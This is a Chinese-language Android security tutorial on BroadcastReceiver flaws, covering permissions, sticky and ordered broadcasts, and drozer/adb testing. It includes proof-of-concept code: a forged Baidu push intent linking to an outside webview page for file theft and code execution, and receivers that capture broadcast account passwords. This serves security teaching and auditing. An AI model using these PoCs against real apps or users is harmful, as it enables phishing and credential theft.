




原文 by 瘦蛟舞 
## 0x00 科普

Broadcast Recevier 广播接收器是一个专注于接收广播通知信息，并做出对应处理的组件。很多广播是源自于系统代码的──比如，通知时区改变、电池电量低、拍摄了一张照片或者用户改变了语言选项。应用程序也可以进行广播──比如说，通知其它应用程序一些数据下载完成并处于可用状态。 应用程序可以拥有任意数量的广播接收器以对所有它感兴趣的通知信息予以响应。  
所有的接收器均继承自BroadcastReceiver 基类。 广播接收器没有用户界面。然而，它们可以启动一个activity 来响应它们收到的信息，或者用NotificationManager 来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。  


## 0x01 知识要点
### 注册形式：动态or静态
元素的name 属性指定了实现了这个activity 的 Activity的子类。icon和label 属性指向了包含展示给用户的此activity 的图标和标签的资源文件。其它组件也以类似的方法声明── 元素用于声明服务，元素用于声明广播接收器，而元素用于声明内容提供器。 manifest 文件中未进行声明的activity、服务以及内容提供器将不为系统所见，从而也就不会被运行。然而，广播接收器既可以在manifest文件中声明，也可以在代码中进行动态的创建，并以调用Context.registerReceiver() 的方式注册至系统。  
  
（静态与动态注册广播接收器区别）

### 回调方法
广播接收器只有一个回调方法：
`void onReceive(Context curContext, Intent broadcastMsg)`

当广播消息抵达接收器时，Android 调用它的onReceive() 方法并将包含消息的Intent 对象传递给它，广播接收器仅在它执行这个方法时处于活跃状态，当onReceive() 返回后，它即为失活状态。 拥有一个活跃状态的广播接收器的进程被保护起来而不会被杀死，但仅拥有失活状态组件的进程则会在其它进程需要它所占有的内存的时候随时被杀掉。 这种方式引出了一个问题：如果响应一个广播信息需要很长的一段时间，我们一般会将其纳入一个衍生的线程中去完成，而不是在主线程内完成它，从而保证用户交互过程的流畅。如果onReceive()衍生了一个线程并且返回，则包含新线程在内的整个进程都被会判为失活状态（除非进程内的其它应用程序组件仍处于活跃状态），于是它就有可能被杀掉。这个问题的解决方法是令onReceive() 启动一个新服务，并用其完成任务，于是系统就会知道进程中仍然在处理着工作。

### 权限
设置接收app
```
Intent  setPackage(String packageName)
(Usually optional) Set an explicit application package name that limits the components this Intent will resolve to.
```
设置接收权限
```
abstract void   sendBroadcast(Intent intent, String receiverPermission)
Broadcast the given intent to all interested BroadcastReceivers, allowing an optional required permission to be enforced.
```
protectionLevel
normal:默认值。低风险权限，只要申请了就可以使用，安装时不需要用户确认。
dangerous：像WRITE_SETTING和SEND_SMS 等权限是有风险的，因为这些权限能够用来重新配置设备或者导致话费，使用此protectionLevel来标识用户可能关注的一些权限。Android 将会在安装程序时，警示用户关于这些权限的需求，具体的行为可能依据Android 版本或者所安装的移动设备而有所变化。  
signature：这些权限仅授予那些和本程序应用了相同密钥来签名的程序。
signatureOrSystem:与signature 类似，除了一点，系统中的程序也需要有资格来访问。这样允许定制Android 系统应用也能获得权限，这种保护等级有助于集成系统编译过程。

### 广播类型
系统广播：像开机启动、接收到短信、电池电量低这类事件发生的时候系统都会发出特定的广播去通知应用，应用接收到广播后会以某种形式再转告用户。
自定义广播：不同于系统广播事件，应用可以为自己的广播接收器自定义出一条广播事件。

### Ordered Broadcast
OrderedBroadcast-有序广播，Broadcast-普通广播，他们的区别是有序广播发出后，能够适配的广播接收者按照一定的权限顺序接收这个广播，并且前面的接收者可以对广播的内容进行修改，修改的结果被后面接收者接收，优先级高的接收者还可以结束这个广播，那么后面优先级低的接收者就接收不到这个广播了。而普通广播发出后，能够是适配的接收者没有一定顺序接收广播，也不能终止广播。

### sticky broadcast
有这么一种broadcast，在发送并经过AMS(ActivityManagerService)分发给对应的receiver 后，这个broadcast 并不会被丢弃，而是保存在AMS 中，当有新的需要动态注册的receiver 请求AMS注册
时，如果这个receiver 能够接收这个broadcast，那么AMS会将在receiver 注册成功之后，马上向receiver 发送这个broadcast。这种broadcast 我们称之为 stickybroadcast。
sendStickyBroadcast() 字面意思是发送粘性的广播，使用这个api 需要权限 android.Manifest.permission.BROADCAST_STICKY, 粘性广播的特点是Intent 会一直保留到广播事件结束，而这种广播也没有所谓的10秒限制，10秒限制是指普通的广播如果onReceive 方法执行时间太长，超过10秒的时候系统会将这个广播置为可以干掉的candidate，一旦系统资源不够的时候，就会干掉这个广播而让它不执行。  
  

(几种广播的特性)
### 变动
android3.1 以及之后版本广播接收器不能在启动应用前注册。可以通过设置intent 的flag 为Intent.FLAG_INCLUDE_STOPPED_PACKAGES 将广播发送给未启动应用的广播接收器。
### 关键方法

* sendBroadcast(intent)
* sendOrderedBroadcast(intent, null, mResultReceiver, null, 0, null, null)
* onReceive(Context context, Intent intent)
* getResultData()
* abortBroadcast()
* registerReceiver()
* unregisterReceiver()
* LocalBroadcastManager.getInstance(this).sendBroadcast(intent)
* sendStickyBroadcast(intent)

## 0x02 分类
  
1. 私有广播接收器：只接收app自身发出的广播
2. 公共广播接收器：能接收所有app发出的广播
3. 内部广播接收器：只接收内部app发出的广播

### 安全建议
intent-filter节点与exported 属性设置组合建议

  
1. 私有广播接收器设置exported='false'，并且不配置intent-filter。(私有广播接收器依然能接收到同UID的广播)
`<receiver android:name=".PrivateReceiver" android:exported="false" />`

2. 对接收来的广播进行验证

3. 内部app之间的广播使用protectionLevel='signature'验证其是否真是内部app

4. 返回结果时需注意接收app是否会泄露信息

5. 发送的广播包含敏感信息时需指定广播接收器，使用显示意图或者
setPackage(String packageName)


6. sticky broadcast粘性广播中不应包含敏感信息

7. Ordered Broadcast建议设置接收权限receiverPermission，避免恶意应用设置高优先级抢收此广播后并执行abortBroadcast()方法。


## 0x03 测试方法
1、查找动态广播接收器：反编译后检索registerReceiver(),
`dz> run app.broadcast.info -a android -i`

2、查找静态广播接收器：反编译后查看配置文件查找广播接收器组件，注意exported属性
3、查找发送广播内的信息检索sendBroadcast与sendOrderedBroadcast，注意setPackage方法于receiverPermission变量。
发送测试广播
```
adb shell：
am broadcast -a MyBroadcast -n com.isi.vul_broadcastreceiver/.MyBroadCastReceiver
am broadcast -a MyBroadcast -n com.isi.vul_broadcastreceiver/.MyBroadCastReceiver –es number 5556.

drozer：
dz> run app.broadcast.send --component com.package.name --action android.intent.action.XXX

code：
Intent i = new Intent();
ComponentName componetName = new ComponentName(packagename,  componet);         
i.setComponent(componetName);       
sendBroadcast(i);
```
接收指定广播
``` java
public class Receiver extends BroadcastReceiver {
private final String ACCOUNT_NAME = "account_name";
private final String ACCOUNT_PWD = "account_password";
private final String ACCOUNT_TYPE = "account_type";
private void doLog(Context paramContext, Intent paramIntent)
{
    String name;
    String password;
    String type;
    do
    {
        name = paramIntent.getExtras().getString(ACCOUNT_NAME);
        password = paramIntent.getExtras().getString(ACCOUNT_PWD);
        type = paramIntent.getExtras().getString(ACCOUNT_TYPE);
    }
    while ((TextUtils.isEmpty(name)) || (TextUtils.isEmpty(password)) || (TextUtils.isEmpty(type)) || ((!type.equals("email")) && (!type.equals("cellphone"))));
    Log.i("name", name);
    Log.i("password", password);
    Log.i("type", type);
 }

public void onReceive(Context paramContext, Intent paramIntent)
{
  if (TextUtils.equals(paramIntent.getAction(), "account"))
  doLog(paramContext, paramIntent);
 }

}
```
## 0x04 案例
### 案例1：伪造消息代码执行
百度云盘有一个广播接收器没有对消息进行安全验证，通过发送恶意的消息，攻击者可以在用户手机通知栏上推送任意消息，点击消息后可以利用webview组件盗取本地隐私文件和执行任意代码。
``` java
Intent i = new Intent();

i.setAction("com.baidu.android.pushservice.action.MESSAGE");

Bundle b = new Bundle();


try
{


JSONObject jsobject = new JSONObject();


//1. phishing

JSONObject custom_content_js = new JSONObject();

jsobject.put("title", "a big surprise!!!");

jsobject.put("description", "");

//jsobject.put("url", "http://bcscdn.baidu.com/netdisk/BaiduYun_5.1.0.apk");

jsobject.put("url", "http://drops.wooyun.org/webview.html");


JSONObject customcontent_js = new JSONObject();

customcontent_js.put("type", "1");

customcontent_js.put("msg_type", "resources_push");

customcontent_js.put("uk", "1");

customcontent_js.put("shareId", "1");

jsobject.put("custom_content", customcontent_js);


String cmd  = jsobject.toString();

b.putByteArray("message", cmd.getBytes("UTF-8"));

}
catch (Exception e)
{

// TODO Auto-generated catch block

e.printStackTrace();
}
```
### 案例2：拒绝服务
尝试向广播接收器发送不完整的intent 比如空action 或者空extra。

### 案例3：敏感信息泄漏
某应用利用广播传输用户账号密码  
  

隐式意图发送敏感信息
``` java
public class ServerService extends Service {
// ...
private void d() {
// ...
Intent v1 = new Intent();
v1.setAction("com.sample.action.server_running");
v1.putExtra("local_ip", v0.h);
v1.putExtra("port", v0.i);
v1.putExtra("code", v0.g);
v1.putExtra("connected", v0.s);
v1.putExtra("pwd_predefined", v0.r);
if (!TextUtils.isEmpty(v0.t)) {
  v1.putExtra("connected_usr", v0.t);
}
}
this.sendBroadcast(v1);
}

接收POC
public class BcReceiv extends BroadcastReceiver {
@Override
public void onReceive(Context context, Intent intent){

String s = null;
if (intent.getAction().equals("com.sample.action.server_running")){
  String pwd = intent.getStringExtra("connected");
  s = "Airdroid  => [" + pwd + "]/" + intent.getExtras();
}
Toast.makeText(context, String.format("%s Received", s),
               Toast.LENGTH_SHORT).show();
}
}
```
修复后代码，使用 LocalBroadcastManager.sendBroadcast() 发出的广播只能被app自身广播接收器接收。
``` java
Intent intent = new Intent("my-sensitive-event");
intent.putExtra("event", "this is a test event");
LocalBroadcastManager.getInstance(this).sendBroadcast(intent);
```

## 0x05 参考
http://www.jssec.org/dl/android_securecoding_en.pdf  
https://www.securecoding.cert.org/confluence/display/java/DRD03-J.+Do+not+broadcast+sensitive+information+using+an+implicit+intent
